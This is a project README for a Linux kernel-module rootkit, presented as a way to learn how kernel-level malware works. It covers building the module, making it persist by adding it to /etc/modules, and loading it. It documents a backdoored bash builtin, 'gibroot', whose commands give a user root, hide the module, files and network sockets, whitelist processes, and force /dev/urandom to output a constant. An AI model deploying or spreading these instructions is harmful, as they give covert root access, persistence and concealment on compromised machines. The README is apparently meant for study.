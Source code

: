 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide [file(s)]
```
to unhide files, use
```
gibroot show [file(s)]
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd [TYPE] [NAME/ID]
```
to remove an entry from the whitelist, use
```
gibroot wrem [TYPE] [NAME/ID]
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID
<br />

to change the name of your bash process to something else, use
```
gibroot newname [NAME]
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hport [TYPE] [STYPE] [PORT]
```
to unhide open sockets, use
```
gibroot sport [TYPE] [STYPE] [PORT]
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET

NOTE: I have experienced a (possibly erroneous) deadlock involving ehash_locks with port/socket hiding
